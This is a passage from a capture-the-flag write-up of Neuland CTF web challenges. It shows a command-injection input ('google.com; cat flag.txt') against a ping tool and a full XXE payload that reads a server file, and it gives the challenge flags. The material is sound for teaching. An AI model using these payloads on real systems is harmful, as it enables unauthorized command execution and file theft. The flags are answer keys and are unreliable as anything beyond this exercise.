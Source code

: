 </br>

The challenge is a simple web-based ping tool. If you enter `google.com`, in the background, it calls `ping -c 4 google.com` and returns the results. You can exploit this by following up with arbitrary shell commands, for example google.com; ls will execute `ping -c 4 google.com; ls` and subsequently list all the files in the working directory. Enter `google.com; cat flag.txt` to get the flag.

The flag is `nland{5h377s-4r3-3v3rywh3r3}`.

<br>

## XML is stupid - Easy

*There's a reason why JSON became so popular. The flag is in /opt/next/flag.txt.*

</br>

The challenge is a web-based viewer for a custom XML format. The flag location is provided in the challenge text (`/opt/next/flag.txt`). An example file is also provided.

You need to use XML External Entities to inject the flag into one of the parsed fields. Do inject the contents of `/opt/next/flag.txt` into the `first-name` field, save the following as an `.xml` file and upload it:

```js
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///opt/next/flag.txt"> ]>

<root>
  <first-name>&xxe;</first-name>
  <last-name>Mustermann</last-name>
</root>
```

The flag will be returned in place of the first name.

The flag is `nland{y0u-sh0u7dn7-us3-xm7}`.

<br>

## Into the Backrooms 1 - Easy

*This challenge has four different parts. The source code is always the same. The parts build on each other and you should work on them in their order.*

*I am currently working on the backend of a new shop system. It is still in development and not finished. Have a look for yourself and try to log into an account.*
<br>

[into_the_backrooms.zip](https://github.com/neuland-ingolstadt/Neuland-CTF-2022-Winter/blob/ced4cc975bdbe9e96325c74e69775142f68267f6/CTF%20Aufgaben/Web/Into%20the%20Backrooms%20-%20Easy%20Medium%20Hard/Public/into_the_backrooms.zip)

<br>

We are presented with the backend of a shop system. The frontend isn't of much use. There are two QR codes and the message to "Look somewhere else!". We only get rickrolled if we scan the first QR code. 

